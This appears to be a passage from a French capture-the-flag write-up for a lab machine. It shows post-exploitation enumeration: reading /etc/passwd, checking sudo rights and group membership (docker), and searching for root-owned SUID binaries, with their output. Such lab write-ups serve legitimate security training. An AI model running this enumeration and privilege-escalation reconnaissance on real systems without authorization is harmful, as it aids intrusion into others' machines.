 ```bash
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lp1:x:1000:1000:lp1:/home/lp1:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
r00t:x:1001:1001::/home/r00t:/bin/bash
www:x:1002:1002::/home/www:/bin/sh
```

**Explication des commandes :**

- `id` : Permet de récupérer des informations sur l’utilisateur (groupes auxquels il appartient, privilèges)
- `sudo -l` : Permet de vérifier si l’utilisateur dispose de privilèges **sudo** (administrateur).
- `cat /etc/passwd` : Liste le contenu du fichier `passwd` contenant une liste des utilisateurs présents sur le système.

D’après les résultats obtenus, on peut relever les informations suivantes : 

- Il semblerait que l’utilisateur fasse partie du groupe `docker` qui correspond enfaite au groupe associé au service **Docker** ([What is Docker Documentation officielle](https://docs.docker.com/get-started/docker-overview/)).
    
    **Note : Je n’y ai pas assez prêté attention au début mais cette information est cruciale pour la fin de la room.**
    
- Notre utilisateur ne dispose pas des permissions **sudo**
- L’utilisateur `r00t` semble être le seul disponible sur le système

Bien maintenant essayons de chercher des fichiers appartenant à l’utilisateur `root` (admin) avec la permission SUID d’activée :

```bash
r00t@ultratech-prod:~$ find / -type f -perm -4000 -user root 2>/dev/null 
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/gpasswd
/bin/su
/bin/mount
/bin/ping
/bin/ntfs-3g
/bin/fusermount
/bin/umount
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
```